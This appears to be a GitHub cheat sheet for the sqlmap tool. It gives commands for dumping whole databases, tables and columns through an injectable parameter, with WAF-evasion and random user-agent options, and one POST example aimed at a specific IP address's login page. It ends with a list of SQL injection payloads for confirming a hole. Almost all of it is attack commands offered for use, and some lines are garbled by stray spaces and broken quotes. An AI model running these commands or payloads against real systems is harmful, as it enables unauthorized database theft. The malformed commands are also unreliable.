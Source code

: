 						
<h2>SQLmap Usage</h2>


 **To Fetch Only Column's Data**                        
 ```
  sqlmap - u "url?prm=" -p prm -D dbname -T table_name -C column_name --dump
```
 **To Fetch Only All Column & Its Data**          
 ```
sqlmap - u "url?prm=" -p prm -D dbname -T table_name  --dump
```

 **To Fetch Entire Database's Data** 		     
 ```
sqlmap - u "url?prm=" -p prm -D dbname  --dump
```

 **To Fetch All Databases**
 ```
 sqlmap - u "url?prm=" -p prm --dbs  --dump
``` 
 *or use --dump-all instead of --dump to fetch all databases's all tables and columns*


<h4>Extra Parameter to Optimise SQLmap's Performance</h4>

 * **Parameters**      `--method GET,   --code 200, --skip-waf, --random-agent, --threads 10 -o `
 
* **Optimised Url**

 For GET Request
```
sqlmap -u "url?prm=" -p prm -D dbname -T table_name -C column_name --dump --method GET --code 200 --skip-waf --random-agent --threads 10 -o
```
 For POST Request
```
sqlmap -u "http://35.227.24.107/ab6ad62d13/login" --data "username=a&password=b&xyz=c" -p "username,password" --method POST --skip-waf --random-agent --threads 10 -o --dbs --dump

```

<h2> SQL Injection Confirmation<h2>
 
 ```
 http://hack.com/’

 http://hack.com/"

 or 1=1 

 ‘or 1=1

 “or 1=1

  or 1=1–

 ‘or 1=1–

 “or 1=1–

  or 1=1#

 ‘or 1=1#

 “or

  1=1#

  or 1=1/*

 ‘or 1=1/*

 “or 1=1/*

  or 1=1;%00

 ‘or 1=1;%00

 “or 1=1;%00

 ‘or’

 ‘or

 ‘or’–

 ‘or–

  or a=a

 ‘or a=a

 “or a=a

  or a=a–

 ‘or a=a —

 “or a=a–

  or ‘a’=’a’

 ‘or ‘a’=’a’

 “or ‘a’=’a’

 ‘)or(‘a’=’a’

 “)”a”=”a”

 ‘)’a’=’a

 ‘or”=’
```
